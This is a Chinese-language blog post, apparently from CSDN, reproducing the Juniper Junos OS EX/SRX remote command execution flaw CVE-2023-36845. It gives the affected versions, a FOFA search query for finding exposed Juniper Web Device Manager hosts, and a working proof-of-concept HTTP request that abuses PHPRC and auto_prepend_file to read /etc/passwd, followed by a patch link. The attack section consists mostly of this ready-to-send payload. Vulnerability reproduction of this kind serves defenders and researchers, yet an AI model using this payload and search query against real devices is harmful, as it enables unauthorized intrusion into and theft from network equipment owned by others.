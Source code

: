 # 原创
：  漏洞复现--Juniper Networks Junos OS EX远程命令执行漏洞(CVE-2023-36845)

# 漏洞复现--Juniper Networks Junos OS EX远程命令执行漏洞(CVE-2023-36845)

## 免责声明：

文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担！

### 一：漏洞描述

Juniper Networks Junos OS EX是美国瞻博网络（Juniper Networks）公司的一套专用于该公司的硬件设备的网络操作系统。它存在一个 PHP 环境变量操纵漏洞，影响 Juniper SRX防火墙和EX交换机。 攻击者可未经授权进行远程命令执行。

### 二：漏洞影响版本

所有version &lt; 21.4R3-S5<br/> 22.1version &lt; 22.1R3-S4<br/> 22.2version &lt; 22.2R3-S2<br/> 22.3version &lt; 22.3R2-S2、22.3R3-S1<br/> 22.4version &lt; 22.4R2-S1、22.4R3<br/> 23.2version &lt; 23.2R1-S1、23.2R2

### 三：网络空间测绘查询

fofa:`title="Juniper Web Device Manager"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/69f1659029feeee7de079a2a08d7dbf6.jpeg"/><br/> 大多是国外的站

### 四：漏洞复现

poc：

```

POST /?PHPRC=/dev/fd/0 HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Sec-Ch-Ua: "-Not.A/Brand";v="8", "Chromium";v="102"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9


auto_prepend_file="/etc/passwd"

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/fbd89f8d66f577318a9e2dc3bee9e47f.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ca7bee0713932fca24590fb189ac0da1.jpeg"/>

### 五：修复建议

厂商已发布补丁：<br/> https://supportportal.juniper.net/JSA72300
